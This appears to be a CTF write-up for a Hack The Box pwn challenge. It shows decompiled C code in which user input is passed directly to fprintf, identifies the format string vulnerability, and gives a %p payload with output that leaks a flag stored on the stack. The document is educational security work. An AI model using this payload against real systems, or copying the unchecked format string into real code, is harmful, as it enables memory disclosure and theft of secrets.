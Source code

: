 ```yaml
---
title:  "[CTF] Unauthorised Access (ELF 64-bit Format string vulnerability)"
categories: [CTF, HTB, Pwn]
---
```


<blockquote>
  <p>Our security developer stated that switching to a 64-bit architecture is unnecessary since their program ensures safety, and only the admin with the authorization cookie can access the secret file. However, we remain uncertain and would appreciate it if you could investigate this matter further.</p></blockquote>

## Understanding the challenge

When running the binary, we have a few tempting options, like reading the secret message or logging in as admin, which of course don’t work:

![Menu](/assets/images/Unauthorised/menu.png)


Behind the scenes, the main function simply calls  a few helper functions to setup the challenge and display the menu:

```c
undefined4 main(void)

{
  int iVar1;
  undefined4 uVar2;
  int in_GS_OFFSET;
  
  iVar1 = *(int *)(in_GS_OFFSET + 0x14);
  setup();
  banner();
  menu();
  uVar2 = 0;
  if (iVar1 != *(int *)(in_GS_OFFSET + 0x14)) {
    uVar2 = __stack_chk_fail_local();
  }
  return uVar2;
}
```


The interesting bits happen in the `menu()` function (annotated code with comments and variable names changed, obtained from Ghidra decompile tool):

```c
void menu(void)
{
  int fdFlag;
  int in_GS_OFFSET;
  byte bVar1;
  undefined4 contentFlag [20];
  undefined4 msgToAdmin [64];
  undefined4 local_10;
  undefined4 *ptrStr;
  
  bVar1 = 0;
  local_10 = *(undefined4 *)(in_GS_OFFSET + 0x14);
  while( true ) {
    // Zero out
    ptrStr = msgToAdmin;
    for (fdFlag = 0x40; fdFlag != 0; fdFlag = fdFlag + -1) {
      *ptrStr = 0;
      ptrStr = ptrStr + (uint)bVar1 * -2 + 1;
    }
    ptrStr = contentFlag;
    for (fdFlag = 0x14; fdFlag != 0; fdFlag = fdFlag + -1) {
      *ptrStr = 0;
      ptrStr = ptrStr + (uint)bVar1 * -2 + 1;
    }
   fdFlag = open("./flag.txt",0);
    if (fdFlag < 0) break;
 read(fdFlag,contentFlag,0x50);
    fwrite("\n+--------------------------+\n|  1. Read secret message  |\n|  2. Login as admin        |\n|  3. List directory       |\n|  4. Exit                 |\n+--------------------------+\n\n $ "
           ,1,0xb2,stdout);
    fdFlag = read_num();
    if (fdFlag == 2) {
      fprintf(stdout,"%s\n[-] Auth token does not match with admin\'s. Login failed!\n%s",
              &DAT_00010fe8,&DAT_00010e72);
    }
    else if (fdFlag == 3) {
      puts("");
      system("ls");
    }
    else {
      if (fdFlag != 1) {
        fwrite("\nGoodbye!\n",1,10,stdout);
        exit(0x16);
      }
      fprintf(stdout,"%s\n[-] You are not admin!\n%s",&DAT_00010fe8,&DAT_00010e72);
      fwrite("\nYou can leave a message for admin to check it later: ",1,0x36,stdout);
 read(0,msgToAdmin,0x99);
 fwrite("\nYour message is: ",1,0x12,stdout);
 fprintf(stdout,(char *)msgToAdmin);
    }
  }
  perror("\nError opening flag.txt, please contact an Administrator.\n");

  exit(1);
}
```

## Vulnerability identification

Since we’re reading a message from the user and then printing it back as a string, we have a classic case of a format string vulnerability:

```c
read(0, msgToAdmin, 0x99);
fwrite("\nYour message is: ", 1, 0x12, stdout);
fprintf(stdout, (char *)msgToAdmin);
```

## Exploitation

Since we know that the flag is read on a variable stored on the stack, we can use the format string attack to print all the bytes of the message/flag, as hex pointers:


```bash
You can leave a message for admin to check it later: %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p   
                                                          
Your message is: 0x12 0xf7e1dda0 0x1 0x1 0x3 0x7b425448 0x336b3466 0x346c665f 0x5f345f67 0x74353374 0x7d676e31 0xa (nil) (nil) (nil) (nil) (nil) (nil)  

```

## References

* [Lecture Notes (Syracuse University) - Format String Vulnerability](https://web.ecs.syr.edu/~wedu/Teaching/cis643/LectureNotes_New/Format_String.pdf)
* [OWASP - Format String Attack](https://owasp.org/www-community/attacks/Format_string_attack)
